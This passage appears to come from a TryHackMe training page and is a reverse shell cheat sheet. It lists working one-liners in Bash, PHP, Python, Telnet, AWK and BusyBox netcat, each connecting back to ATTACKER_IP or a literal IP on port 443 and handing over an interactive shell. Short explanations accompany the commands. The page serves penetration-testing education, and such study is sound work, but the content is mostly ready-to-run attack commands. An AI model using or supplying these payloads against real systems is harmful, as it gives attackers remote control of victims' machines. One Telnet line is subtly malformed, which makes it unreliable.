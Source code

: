 #### Bash

**Normal Bash Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```

This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (**ATTACKER_IP**) on port `443`. The `>&` operator combines both standard output and standard error.

  

**Bash Read Line** **Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

This reverse shell creates a new file descriptor (`5` in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

  

**Bash With File Descriptor 196** **Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

This reverse shell uses a file descriptor (`196` in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

  

**Bash With File Descriptor 5** **Reverse Shell**

Terminal

```shell-session
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

Similar to the first example, this command opens a shell (`bash -i`), but it uses file descriptor `5` for input and output, enabling an interactive session over the TCP connection.

#### PHP

**PHP Reverse Shell Using the exec Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

This reverse shell creates a socket connection to the attacker's IP on port `443` and uses the `exec` function to execute a shell, redirecting standard input and output.

  

**PHP Reverse Shell Using the shell_exec Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

Similar to the previous command, but uses the `shell_exec` function.

  

**PHP Reverse Shell Using the system Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

This reverse shell employs the `system` function, which executes the command and outputs the result to the browser.

  

**PHP Reverse Shell Using the passthru Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

The `passthru` function executes a command and sends raw output back to the browser. This is useful when working with binary data.

  

**PHP Reverse Shell Using the popen Function**

Terminal

```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```

This reverse shell uses `popen` to open a process file pointer, allowing the shell to be executed.

### Python

### ﻿Please note, the following snippets below require using `python -c` to run, indicated by the placeholder PY-C  

**Python Reverse Shell by Exporting Environment Variables**

Terminal

```shell-session
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```

This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

**Python Reverse Shell Using the subprocess Module**

Terminal

```shell-session
target@tryhackme:~$ PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

This reverse shell uses the `subprocess` module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.  

**Short Python Reverse Shell**

Terminal

```shell-session
PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

This reverse shell creates a socket (`s`), connects to the attacker, and redirects standard input, output, and error to the socket using `os.dup2()`.

Others  

**Telnet**

Terminal

```shell-session
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

This reverse shell creates a named pipe using `mkfifo` and connects to the attacker via Telnet on IP `ATTACKER_IP` and port `443`. 

**AWK**

Terminal

```shell-session
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

This reverse shell uses AWK’s built-in TCP capabilities to connect to `ATTACKER_IP:443`. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.

**BusyBox**

Terminal

```shell-session
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```

This BusyBox reverse shell uses Netcat (`nc`) to connect to the attacker at `ATTACKER_IP:443`. Once connected, it executes `/bin/sh`, exposing the command line to the attacker.